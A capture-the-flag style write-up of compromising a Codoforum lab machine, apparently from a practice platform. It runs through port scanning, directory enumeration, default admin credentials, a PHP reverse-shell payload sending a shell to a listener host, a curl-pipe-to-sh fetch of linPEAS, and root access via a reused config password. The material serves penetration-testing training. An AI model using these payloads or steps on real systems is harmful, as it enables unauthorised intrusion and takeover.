





# Codo

### Contents
- [Set-up](#set-up)
- [Discovery](#discovery)
- [Access](#access)
- [Root Access](#root-access)
- [Bonus (Persistence via New OS User)](#bonus)

## Set-up

1) Ran a `sudo apt-get update`

2) Added target to `/etc/hosts`

```
$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

192.168.51.23 target
```

## Discovery

3) Port scanned the target

```
??$ nmap -v -T4 -p 22,80 -A target
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: All topics | CODOLOGIC
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have an open ssh port on 22/tcp and an Apache webserver (version 2.4.41) on tcp/80.

4) Navigating to `http://target` on Firefox I note that the server is a Codoforum server [docs](https://codoforum.com/).



## Access

5) At this point, things that come to mind are to:

- a) Try default creds on the login page e.g. admin:admin
- b) Enumerate the http webserver with `gobuster`/`dirbuster`
- c) Look up "codo" or "codoforum" on `searchsploit` for known exploitable CVEs

Let's do it all...

6) Trying silly credentials on the webserver's login form at `http://target/index.php?u=/user/login`

Username `admin` and password `admin` works! (lol)

I notice this is a php webserver... and if I inspect the profile picture of the admin account I see it points to a location in the server's filesystem.

Just in case we get lucky, I try uploading a php reverse shell as the new profile picture:

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.54 4444 >/tmp/f");?> 
```

and start a local listener on that port

```
nc -lvnp 4444
```

No luck... the webapp doesn't let me upload a profile picture with that extension



I try to dig in other tabs but there's nothing promising there... let's try enumerating paths.

7) Enumerating webserver paths with `gobuster`, we'll try a small wordlist first

```
$ gobuster dir -u http://target -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 300] [--> http://target/admin/]
/sites                (Status: 301) [Size: 300] [--> http://target/sites/]
/cache                (Status: 301) [Size: 300] [--> http://target/cache/]
/sys                  (Status: 301) [Size: 298] [--> http://target/sys/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

Okay, looks like we have an `/admin`, a `/sites`, and a `/sys` path, let's look at those.

- By looking at `/sys` and `/sites` we confirm this is a php app and we are able to traverse the app's files to some extent. Some appear to be hidden but this is promising, we may need to come back to this
- The `/admin` route has an admin console, what are the odds `admin:admin` works... **that worked!**

8) In the admin menu we can change a bunch of things. After messing around I find I can change the codoforum logo for my app. By inspecting the codoforum app front page I find the logo is served in `http://target/sites/default/assets/img/profiles/icons/6488ee7e82484.png`. I'll try uploading the php reverse shell (`my-shell.php`) here and finding it in `http://target/sites/default/assets/img/profiles/icons/my-shell.php`...

Hmmm... the admin menu let me upload that but the URL gives me a 404...

9) Next I try changing the global settings of the app to allow `.php` uploads in the forum, and MIME types including `application/*`. I note that the upload location is set to `/assets/img/attachments`.



As an app-user (which I just registered and bumped to admin in the admin panel - I try creating a new post and uploading the `my-shell.php` file as an attachment here. The system let's me and it gives me some path alias "65dc060a9694c".

Navigating to `http://target/sites/default/assets/img/profiles/icons/65dc060a9694c` serves the php as text... hmm that didn't work. And adding `.php` and the end just gives me a 404.



We'll have to try harder. Let's try option (c) from #5, look up exploits.

10) We find a few hits on `searchsploit`, let's try the RCE, since that's what we've been trying so far anyways.

```
??$ searchsploit codoforum
---------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ---------------------------------
CodoForum 2.5.1 - Arbitrary File Download                 | php/webapps/36320.txt
CodoForum 3.2.1 - SQL Injection                           | php/webapps/40150.txt
CodoForum 3.3.1 - Multiple SQL Injections                 | php/webapps/37820.txt
CodoForum 3.4 - Persistent Cross-Site Scripting           | php/webapps/40015.txt
Codoforum 4.8.3 - 'input_txt' Persistent Cross-Site Scrip | php/webapps/47886.txt
Codoforum 4.8.3 - Persistent Cross-Site Scripting         | php/webapps/47876.txt
CodoForum v5.1 - Remote Code Execution (RCE)              | php/webapps/50978.py
---------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

11) Reading the code for the RCE (under `/usr/share/exploitdb/exploits/php/webapps/50978.py`) we find that the exploit logs into the admin panel, then uploads a php reverse shell as the site logo and then finds it in `http://target/sites/default/assets/img/attachments/${UPLOADED_FILENAME}`

So we were close! We just didn't look for the file in the correct place...

So now I set up my netcat listener (to catch the reverse shell) and navigate to `http://target/sites/default/assets/img/attachments/my-shell.php` since we already uploaded that file.

Success!



## Root Access

12) Some notes:

- We can't cd to `/root`
- Looking at `/etc/passwd`, there are three users with shells in the system `www-data` (the current user), `offsec`, and `root`

13) Tried `getcap -r / 2>/dev/null` and saw nothing interesting, so time for linPEAS...

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Interesting Results:

```
--------- Searching passwords in config PHP files
/var/www/html/sites/default/config.php:  'password' => 'FatPanda123', 
```

13) Let's try our new password against root

```
$ su root
Password: FatPanda123
whoami
root
cd /root
ls -la
total 44
drwx------  6 root root 4096 Feb 26 01:44 .
drwxr-xr-x 19 root root 4096 Jun 15  2022 ..
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Jun 16  2022 .cache
-rw-r--r--  1 root root    7 Jun 14  2023 email2.txt
drwxr-xr-x  3 root root 4096 Jun 16  2022 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-rw-rw-  1 root root   33 Feb 26 01:44 proof.txt
drwx------  3 root root 4096 Jun 15  2022 snap
drwx------  2 root root 4096 Jun 15  2022 .ssh
-rw-------  1 root root 1191 Jun 13  2023 .viminfo
cat proof.txt
243ebd73082cd8528138e0b51a4a1358
```

There's our flag/proof!
